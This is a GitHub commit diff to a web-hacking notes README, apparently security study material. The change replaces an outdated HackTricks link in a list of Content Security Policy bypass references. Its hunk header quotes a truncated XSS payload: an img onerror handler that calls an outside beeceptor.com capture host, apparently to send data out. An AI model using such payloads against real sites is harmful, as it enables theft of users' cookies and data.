

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, the part around the change. Drawn GitHub-style.

Commit message:
fix old link

```diff
--- a/web/README.md
+++ b/web/README.md
@@ -576,9 +576,9 @@ https://vulnerable.org?parameter=<img src=x onerror="//night.free.beeceptor.com?
 - https://csplite.com/csp320/
 - https://content-security-policy.com/
 - https://csp-evaluator.withgoogle.com/
-- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
 - https://www.cobalt.io/blog/csp-and-bypasses
 - https://chromestatus.com/feature/5735596811091968
+- https://book.hacktricks.wiki/en/pentesting-web/content-security-policy-csp-bypass/index.html
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/4%20-%20CSP%20Bypass.md
 
 rappel
```
